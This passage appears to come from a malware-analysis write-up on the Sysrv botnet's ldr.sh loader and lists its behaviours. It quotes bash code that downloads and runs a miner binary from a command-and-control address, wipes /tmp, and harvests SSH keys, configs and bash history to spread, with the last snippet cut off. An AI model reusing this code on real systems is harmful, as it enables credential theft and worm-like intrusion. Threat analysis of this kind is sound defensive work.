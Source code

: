 ![ldr.sh](/assets/img/sysrv/ldr_sh.jpg)

Some key points in the snippet above:

- Payload IP is hardcoded
- Generate a unique ID (used later to name the binary download)
- Attempts to disable / create basic Firewall rules
- Defence evasion
- Search for other miner like cron jobs, mounts and processes to be killed

The script checks to see if there is already an instance of _kthreaddk_ running; before requesting the payload if it isn't. Once downloaded, the binary is run with `nohup` and any output suppressed. Clean up is performed after this step of */tmp* directories and the payload binary.

```bash
ps -ef | grep -v bash | grep kthreaddk | grep -v grep
if [ $? -ne 0 ]; then
  PATH=".:$PATH"
  get $cc/sys.$(uname -m) $sys
  nohup $sys 1>/dev/null 2>&1 &
  sleep 1
fi
rm -rf /var/tmp/* /var/tmp/.* /tmp/* /tmp/.* $sys dlr
```

There is also a section to gather user, host and SSH key data which the script will then use to try and propagate itself to additional hosts.

```bash
_sig="$HOME/.localssh"
if [ ! -f $_sig ]; then
touch $_sig
KEYS=$(find ~/ /root /home -maxdepth 2 -name 'id_rsa*'|grep -vw pub)
KEYS2=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config|grep IdentityFile|awk -F "IdentityFile" '{print $2 }')
KEYS3=$(find ~/ /root /home -maxdepth 3 -name '*.pem'|uniq)
HOSTS=$(cat ~/.ssh/config /home/*/.ssh/config /root/.ssh/config|grep HostName|awk -F "HostName" '{print $2}')
HOSTS2=$(cat ~/.bash_history /home/*/.bash_history /root/.bash_history|grep -E "(ssh|scp)"|grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}")
HOSTS3=$(cat ~/*/.ssh/known_hosts /home/*/.ssh/known_hosts /root/.ssh/known_hosts|grep -oP "([0-9]{1,3}\.){3}[0-9]{1,3}"|uniq)
USERZ=$(
    echo root
```

[^1]: https://intezer.com/blog/research/new-golang-worm-drops-xmrig-miner-on-servers/ 
[^2]: https://cujo.com/the-sysrv-botnet-and-how-it-evolved/ 
[^3]: https://twitter.com/MsftSecIntel/status/1525158219206860801
[^4]: https://github.com/advanced-threat-research/GhidraScripts
[^5]: https://github.com/getCUJO/ThreatIntel/tree/master/Scripts/Ghidra
[^6]: https://blogs.juniper.net/en-us/threat-research/sysrv-botnet-expands-and-gains-persistence